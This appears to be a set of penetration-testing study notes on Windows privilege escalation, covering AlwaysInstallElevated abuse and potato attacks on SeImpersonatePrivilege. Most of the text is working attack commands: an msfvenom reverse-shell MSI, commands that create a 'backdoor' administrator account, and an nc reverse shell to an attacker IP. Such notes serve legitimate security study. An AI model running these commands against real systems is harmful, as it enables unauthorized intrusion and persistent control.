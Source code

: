 ## Elevated Installation
- If we have the registry key `AlwaysInstallElevated` set in `HKLM` and `HKCU`, installations will always be run as `NT AUTHORITY\SYSTEM`
- We can check if this is the case with `reg`
```powershell 
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated 
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```
- As shown on [Hacktricks](https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/index.html#alwaysinstallelevated) we can abuse this by crafting a malicious `.msi` package using `msfvenom`
```zsh
msfvenom -p windows/x64/powershell_reverse_tcp LHOST=192.168.45.238 LPORT=135 -f msi > elevateme.msi

#Transfer this onto Windows host and execute
iwr -uri http://192.168.45.238/elevateme.msi -outfile elevateme.msi

.\elevateme.msi
```

# Using Exploits
- Check user privileges with `whoami /priv`
- Check Windows version with `systeminfo`
- Check installed security patches with `Get-CimInstance -Class win32_quickfixengineering | Where-Object { $_.Description -eq "Security Update" }`
- Refer to the [Microsoft Security Reponse Center - Update Guide](https://msrc.microsoft.com/update-guide) to find potential vulnerabilites that affect the found product

# Abusing Privileges
> [!IMPORTANT]
> Privileges that may lead to privilege escalation are `SeImpersonatePrivilege`,`SeBackupPrivilege`, `SeAssignPrimaryToken` , `SeManageVolumePrivilege`, `SeLoadDriver` and `SeDebug`
- We often come accross those privileges after exploiting IIS (or other Windows services) and obtaining code executios as IIS will run as `LocalService`, `LocalSystem`, `NetworkService` or `ApplicationPoolIdentity` all of which have the the `SeImpersonatePrivilege`
### SeImpersonatePrivilege
- If we encounter a user with `SeImpersonatePrivilege` we can try different potato attack such as [GodPotato](https://github.com/BeichenDream/GodPotato/releases/tag/V1.20) or [SigmaPotato](https://github.com/tylerdotrar/SigmaPotato) (Other variants being _RottenPotato_, _SweetPotato_ , _JuicyPotato_)
- In case of JuicyPotato, we might need to hunt for specific CLSIDs which can be looked up on this [Github repository](https://github.com/ohpe/juicy-potato/tree/master/CLSID) (wuauserv is often a good candidate)
- Also check out [Hacktricks - RoguePotato and Printspoofer](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/roguepotato-and-printspoofer) and the [jlajara Github Page on Potatoes](https://jlajara.gitlab.io/Potatoes_Windows_Privesc)
```powershell
GodPotato -cmd "C:\Users\Public\reverse.exe"

GodPotato -cmd "net user /add backdoor Password123"
GodPotato -cmd "net localgroup administrators /add backdoor"

SigmaPotato "net user /add backdoor Password123"
SigmaPotato "net localgroup administrators /add backdoor"

RunasCs.exe backdoor Password123 "C:\Users\Public\reverse.exe" --force-profile --logon-type 8

.\runascs.exe backdoor Password123 "C:\Users\alexa\nc.exe 192.168.45.176 9001 -e cmd" --force-profile --logon-type 8
```